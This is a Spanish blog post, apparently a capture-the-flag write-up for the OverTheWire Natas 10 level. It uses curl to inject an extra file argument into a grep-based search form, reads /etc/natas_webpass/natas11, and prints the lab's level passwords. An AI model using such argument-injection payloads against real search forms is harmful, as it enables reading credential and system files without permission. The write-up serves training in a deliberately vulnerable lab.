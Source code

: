 ```yaml
---
title: OverTheWire - Natas 9 -> 10 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 9 -> 10 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas10
Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
URL:      http://natas10.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/
```

![](/assets/images/images-otw-natas/natas9->10-1.png)

Vemos que existe un buscado y su código fuente que se almacena en `index-source.html`.

![](/assets/images/images-otw-natas/natas9->10-2.png)

Si vamos al archivo no podremos ver nada.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/index-source.html
```

![](/assets/images/images-otw-natas/natas9->10-3.png)

Esto se soluciona instalando la herramienta `html2text` con el comando `sudo apt install html2text`.

 ```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/index-source.html | html2text
 ```

![](/assets/images/images-otw-natas/natas9->10-4.png)

Se está haciendo una lista negra con los carácteres `; | &`, es decir, si escribimos estos carácteres en la búsqueda la página nos dará un error.

![](/assets/images/images-otw-natas/natas9->10-5.png)

Lo que ingresemos en la búsqueda se guardará en la variable `$key` y se agregará al comando grep.

![](/assets/images/images-otw-natas/natas9->10-6.png)

Para resolver este reto y obtener la contraseña primero debemos entender cómo funciona el comando grep.

Tenemos un archivo llamado `archivo1.txt` que tiene la palabra `hola!`.

![](/assets/images/images-otw-natas/natas9->10-7.png)

Y otro archivo llamado `archivo2.txt` que contiene la palabra `chao!`.

![](/assets/images/images-otw-natas/natas9->10-8.png)

Si buscamos la letra `a` con el comando grep sobre ambos archivo obtenemos las palabras enteras, y grep nos indica el nombre del archivo al que pertece cada palabra.

```bash
grep -i a archivo1.txt archivo2.txt
```

![](/assets/images/images-otw-natas/natas9->10-9.png)

Esta parte marcada en rojo es la que nosotros controlamos en la búsqueda de la página.

![](/assets/images/images-otw-natas/natas9->10-10.png)

Si buscamos una letra que no aparece en ningún archivo, entonces no nos mostrará nada. Lo mismo si filtramos una letra que aparece solo en un archivo.

![](/assets/images/images-otw-natas/natas9->10-11.png)

Con esto en mente filtraremos por la letra `a`, y agregaremos el archivo `/etc/natas_webpass/natas11` que contiene la contraseña para el siguiente nivel.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=a /etc/natas_webpass/natas11&submit=hola'
```

![](/assets/images/images-otw-natas/natas9->10-12.png)

Pero lo página nos muestra mucho texto. Enviaremos todo este output hacia un archivo cualquiera con el nombre `natas10.txt`.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=a /etc/natas_webpass/natas11&submit=hola' > natas10.txt
```

![](/assets/images/images-otw-natas/natas9->10-19.png)

Y ejecutaremos el comando head para observar solo las primeras lineas de la respuesta.

```bash
head -n 30 natas10.txt
```

Notamos que en la respuesta no se encuentra la contraseña de natas11, esto es porque la contraseña no contiene la letra `a`. Seguiremos reemplazando la letra en nuestro comando de curl, hasta que nos devuelva la contraseña.

![](/assets/images/images-otw-natas/natas9->10-14.png)

Realizamos el mismo procedimiento pero cambiamos la letra `a` por una `b`.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=b /etc/natas_webpass/natas11&submit=hola' > natas10.txt
```

![](/assets/images/images-otw-natas/natas9->10-15.png)

Nuevamente no vemos nada porque lo contraseña de natas11 no contiene la letra `b`.

```bash
head -n 30 natas10.txt
```

![](/assets/images/images-otw-natas/natas9->10-16.png)

Realizamos el mismo procedimiento pero cambiamos la letra `b` por la letra `c`.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=c /etc/natas_webpass/natas11&submit=hola' > natas10.txt
```

![](/assets/images/images-otw-natas/natas9->10-17.png)

Ejecutamos el comando head y esta vez sí vemos la contraseña de natas11.

```bash
head -n 30 natas10.txt
```

![](/assets/images/images-otw-natas/natas9->10-18.png)


# Contraseña
---

`U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK`

---

## [Anterior](/blog/level-8-9)